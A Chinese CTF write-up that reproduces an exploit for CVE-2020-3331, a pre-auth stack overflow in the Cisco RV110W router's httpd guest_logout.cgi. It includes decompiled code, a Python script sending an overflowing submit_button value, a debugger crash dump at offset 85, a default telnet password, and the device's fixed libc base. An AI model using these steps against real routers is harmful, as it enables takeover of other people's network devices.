

# RealWord IoT CC

复现2020强网杯 Final： RealWorld IoT CC题目。    

## 0x01 题目

题目目标：WiFi路由器 CISCO RV110W (固件版本1.2.2.5)
题目要求：劫持WiFi路由器，让测试人员访问www.baidu.com为黑页，即获取设备Root Shell。

### 运行
复现可以通过实体设备或固件模拟。   
固件模拟（Docker）：https://github.com/xuanxuanblingbling/IoT-vulhub/tree/master/Cisco/CVE-2020-3331   
>推荐使用王大师的Githhub Docker环境，描述清晰，无需踩坑。    


## 0x02 分析

###  1. Find 1day ——> 定位漏洞服务（Binary）
通过官网可以发现，目标固件版本不是最新版，最近版本为1.2.2.8(https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8)，所以就知道此次RealWorld的是1day题，就需要查询1.2.2.5-1.2.2.8期间的1day漏洞信息，找到相关Binary进行Diff。    
可以通过cve list进搜索：   
|CVE编号|	漏洞详情|
|---|---|
|CVE-2020-3331|	Cisco RV110W Wireless-N VPN防火墙和Cisco RV215W Wireless-N VPN路由器的基于Web的管理界面中的漏洞可能允许未经身份验证的远程攻击者在受影响的设备上执行任意代码。该漏洞是由于基于Web的管理界面未正确验证用户提供的输入数据而引起的。攻击者可以通过向特定设备发送精心设计的请求来利用此漏洞。成功的利用可能使攻击者利用root用户的特权执行任意代码。|
|CVE-2020-3330|	Cisco Small Business RV110W Wireless-N VPN防火墙路由器的Telnet服务中的漏洞可能允许未经身份验证的远程攻击者完全控制具有高特权帐户的设备。存在此漏洞是因为系统帐户具有默认的静态密码。攻击者可以通过使用此默认帐户连接到受影响的系统来利用此漏洞。成功利用此漏洞可能使攻击者获得对受影响设备的完全控制。|
|CVE-2020-3323|	Cisco Small Business RV110W，RV130，RV130W和RV215W路由器的基于Web的管理界面中的漏洞可能允许未经身份验证的远程攻击者在受影响的设备上执行任意代码。该漏洞是由于在基于Web的管理界面中未正确验证用户提供的输入而引起的。攻击者可以通过向目标设备发送特制的HTTP请求来利用此漏洞。成功的利用可能使攻击者能够以root用户身份在受影响设备的基础操作系统上执行任意代码。|
|CVE-2020-3150|	Cisco Small Business RV110W和RV215W系列路由器的基于Web的管理界面中的漏洞可能允许未经身份验证的远程攻击者从设备下载敏感信息，其中可能包括设备配置。该漏洞是由于对HTTP请求的授权不当造成的。攻击者可以通过在路由器的基于Web的管理界面上访问特定的URI来利用此漏洞，但这仅在自上次重新启动以来任何有效用户打开设备上的特定文件之后。成功利用此漏洞将使攻击者可以查看敏感信息，应对此加以限制。|
|CVE-2020-3144|	思科RV110W无线N VPN防火墙，RV130 VPN路由器，RV130W无线N多功能VPN路由器和RV215W无线N VPN路由器的基于Web的管理界面中的漏洞可能允许未经身份验证的远程攻击者绕过身份验证并执行受影响的设备上带有管理命令的任意命令。该漏洞是由于受影响的设备上的会话管理不当引起的。攻击者可以通过向受影响的设备发送特制的HTTP请求来利用此漏洞。成功利用该漏洞可能使攻击者获得受影响设备上的管理访问权限。|

- CVE-2020-3330：根据描述这个应该是telnet后门，通过Google会找到相关文章：https://blogs.360.cn/post/yi-ge-zi-jie-cha-cuo-dao-zhi-Cisco-fang-huo-qiang-lu-you-qi-yuan-cheng-dai-ma-zhi-xing.html，但是真实演示设备没有开启telnet，所以这个只能用作调试（`admin`:`Admin123`）。     
- CVE-2020-3331和CVE-2020-3323:都说的是允许未经身份验证的远程攻击者在受影响的设备上执行任意代码，可以定位为http服务，前台RCE。     

结论：题目1day为http服务前台RCE。    
### 2. Diff -> 定位漏洞函数

1. 下载 [RV110W_FW_1.2.2.8.bin](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8)  和 [RV110W_FW_1.2.2.5.bin](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.5)固件。
2. 通过telnet来确认binary位置： `/usr/sbin/httpd`
3. binwalk解压两个固件，找http服务程序httpd，进行diff，使用ida bindiff插件，倒序找相似度最低的几个，也就改动大，`guest_logout_cgi`最可疑，是logout是可以前台访问的。        



### 3. 静态分析

- 通过http请求参数submit_button的参数，传入v11指针。    
`v11 = (const char *)get_cgi("submit_button");`   
- 然后通过正则匹配取值放入v29和v28这两个变量(`char v28[64]` `char v29[68]`)在栈空间，v11变量可以很大（url长度限制），产生溢出。    
`sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);`
- 研究`submit_button`参数怎么输入。  
必须包含status_guestnet.asp字符串。    
`if ( !strstr(v11, "status_guestnet.asp") )`    
>sscanf正则：%[^;];%*[^=]=%[^\n]，这里% 表示选择，%* 表示过滤，中括号括起来的是类似正则的字符集，意思就是：   
%[^;]：分号前的所有字符都要    
;%*[^=]：分号后，等号前的字符都不要    
=%[^\n]：等号后，换行符前的所有字符都要    
举个例子就是，如果输入是aaa;bbb=ccc，那么v29是aaa,v28是ccc。  
- 其它两个参数`cmac`和 `cip`     
  `v5 = (const char *)get_cgi("cmac");`    
  `v6 = (const char *)get_cgi("cip");`    

url: http://192.168.2.2/guest_logout.cgi
data : cmac=111&submit_button=status_guestnet.asp+'a'*0x100&cip=192.168.2.2
```c
int __fastcall guest_logout_cgi(int a1)
{
  const char *v1; // $v0
  int cgi; // $s0
  char *i; // $s0
  int v4; // $v1
  const char *v5; // $s3
  const char *v6; // $v0
  int v7; // $s0
  char *j; // $s0
  int v9; // $v1
  const char *v10; // $s2
  const char *v11; // $s4
  FILE *v12; // $v0
  FILE *v13; // $s0
  FILE *v14; // $v0
  FILE *v15; // $s0
  FILE *v17; // $v0
  FILE *v18; // $s0
  const char *v19; // $v0
  int v20; // $s1
  const char *v21; // $v0
  FILE *v22; // $v0
  FILE *v23; // $s0
  const char *v24; // $a0
  FILE *v25; // $v0
  FILE *v26; // $s0
  int v27[5]; // [sp+28h] [-98h] BYREF
  char v28[64]; // [sp+3Ch] [-84h] BYREF
  char v29[68]; // [sp+7Ch] [-44h] BYREF

  cgi = get_cgi("cmac");
  v1 = (const char *)get_cgi("cmac");
  for ( i = (char *)(cgi + strlen(v1) - 1); get_cgi("cmac") < (unsigned int)i; *i-- = 0 )
  {
    v4 = *i;
    if ( v4 != 10 && v4 != 13 && v4 != 32 )
      break;
  }
  v5 = (const char *)get_cgi("cmac");
  v7 = get_cgi("cip");
  v6 = (const char *)get_cgi("cip");
  for ( j = (char *)(v7 + strlen(v6) - 1); get_cgi("cip") < (unsigned int)j; *j-- = 0 )
  {
    v9 = *j;
    if ( v9 != 10 && v9 != 13 && v9 != 32 )
      break;
  }
  v10 = (const char *)get_cgi("cip");
  v11 = (const char *)get_cgi("submit_button");
  if ( !v11 )
    v11 = "";
  if ( v5 && v10 )
  {
    memset(v29, 0, 0x40u);
    memset(v28, 0, sizeof(v28));
    v12 = fopen("/dev/console", "w");
    v13 = v12;
    if ( v12 )
    {
      fprintf(v12, "\n  mac=[%s], ip=[%s], submit_button=[%s]\n", v5, v10, v11);
      fclose(v13);
    }
    if ( VERIFY_MAC_17(v5) && VERIFY_IPv4(v10) )
    {
      if ( !strstr(v11, "status_guestnet.asp") )
        goto LABEL_31;
      sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);
      v17 = fopen("/dev/console", "w");
      v18 = v17;
      if ( v17 )
      {
        fprintf(
          v17,
          "\n%s(%d),submit_button = [%s] url=[%s], session_id=[%s]\n",
          "guest_logout_cgi",
          5449,
          v11,
          v29,
          v28);
        fclose(v18);
      }
      v19 = (const char *)nvram_get("session_key");
      if ( !v19 || (v20 = 1, strcmp(v19, v28)) )
      {
LABEL_31:
        v21 = (const char *)nvram_get("http_client_mac");
        if ( v21 && strcmp(v21, v5) || (v24 = (const char *)nvram_get("http_client_ip")) != 0 && strcmp(v24, v10) )
        {
          v22 = fopen("/dev/console", "w");
          v23 = v22;
          if ( v22 )
          {
            fprintf(
              v22,
              "\n%s(%d)  Drop session, ip and mac invmatch,mac=[%s], ip=[%s], submit_button=[%s]\n",
              "guest_logout_cgi",
              5457,
              v5,
              v10,
              v11);
            fclose(v23);
          }
          goto LABEL_35;
        }
        v20 = 0;
      }
      syslog(6, "The mac is %s and IP is %s of guest network user logout.", v5, v10);
      if ( debug )
      {
        v25 = fopen("/dev/console", "w");
        v26 = v25;
        if ( v25 )
        {
          fprintf(v25, "%s(): \n  mac=[%s], ip=[%s], submit_button=[%s]\n", "guest_logout_cgi", v5, v10, v11);
          fclose(v26);
        }
      }
      v27[0] = (int)"/sbin/cron_gn";
      v27[1] = (int)&byte_485FE4;
      v27[2] = (int)v5;
      v27[3] = (int)v10;
      v27[4] = 0;
      eval(v27, ">/dev/console", 0, 0);
      if ( v20 && !strcmp(v29, "status_guestnet.asp") )
      {
LABEL_36:
        if ( strlen(v29) < 6 )
          do_ej(v11, a1);
        else
          do_ej(v29, a1);
        return 0;
      }
LABEL_35:
      if ( strcmp(v11, "login_guest.asp") )
        return 0;
      goto LABEL_36;
    }
    v14 = fopen("/dev/console", "w");
    v15 = v14;
    if ( v14 )
    {
      fprintf(
        v14,
        "\n%s(%d)  Drop session,VALID_FAIL, mac=[%s], ip=[%s], submit_button=[%s]\n",
        "guest_logout_cgi",
        5442,
        v5,
        v10,
        v11);
      fclose(v15);
    }
  }
  return 0;
}
```


### 4. 调试
docker版模拟web无法显示页面，只能通过StatusCode来判断页面是否存在。    

#### 保护措施
```
pwn checksec ./httpd
[*] '/squashfs-root/usr/sbin/httpd'
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
#### 偏移计算
```python
url = "http://192.168.117.1:8888/guest_logout.cgi"
payload = cyclic(0x100)
data = {
    b"cmac":b"aa:bb:cc:dd:ff:ee",
    b"cip":b"192.168.2.2",
    b"submit_button":b"status_guestnet.asp" + payload
}
req = requests.post(url,data=data)
print(req.status_code)
```

通过cyclic 定位溢出偏移为85.   

```
>>> from pwn import *
>>> cyclic_find('aaaw')
85
```
```bash
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x77616161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────
*V0   0x0
*V1   0x73
*A0   0x4d81e0 ◂— 0x75746174 ('tatu')
*A1   0x47f785 ◂— 'ogin_guest.asp'
 A2   0x0
*A3   0x0
*T0   0xfd00
*T1   0x77a2f411 ◂— 0x6c5f5f00
*T2   0x77ea3f89 ◂— jalx   0x79957c00
 T3   0x77ff5a70 —▸ 0x77a28000 ◂— 0x464c457f
*T4   0x77a2a64c ◂— 0x88e
*T5   0x24
*T6   0xd80b684
 T7   0x77a2eb7c ◂— 0x4c475f00
 T8   0x77a2a40c ◂— nop
*T9   0x77a564d0 ◂— lbu    $v1, ($a0)
*S0   0x6e616161 ('aaan')
*S1   0x6f616161 ('aaao')
*S2   0x70616161 ('aaap')
*S3   0x71616161 ('aaaq')
*S4   0x72616161 ('aaar')
*S5   0x73616161 ('aaas')
*S6   0x74616161 ('aaat')
*S7   0x75616161 ('aaau')
*S8   0x76616161 ('aaav')
*FP   0x7fff1348 ◂— 'aaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
*SP   0x7fff1348 ◂— 'aaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
*PC   0x77616161 ('aaaw')
───────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
Invalid address 0x77616161

───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ fp sp 0x7fff1348 ◂— 'aaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
01:0004│       0x7fff134c ◂— 'aaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
02:0008│       0x7fff1350 ◂— 'aaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
03:000c│       0x7fff1354 ◂— 'aabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
04:0010│       0x7fff1358 ◂— 'aabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
05:0014│       0x7fff135c ◂— 'aabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
06:0018│       0x7fff1360 ◂— 'aabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
07:001c│       0x7fff1364 ◂— 'aabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0 0x77616161
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

## EXP
需要注意的几点：
1. sscanf，存在00截断
2. 地址随机化（在真实设备中）.但是思科WiFi路由，httpd进程的libc基址就是2af98000，无论你是重启进程，还是升级版本，这个基址都不变。猜测可能是为了轻量化把随机化给裁剪了。     
```
$ cat /proc/sys/kernel/randomize_va_space
1
```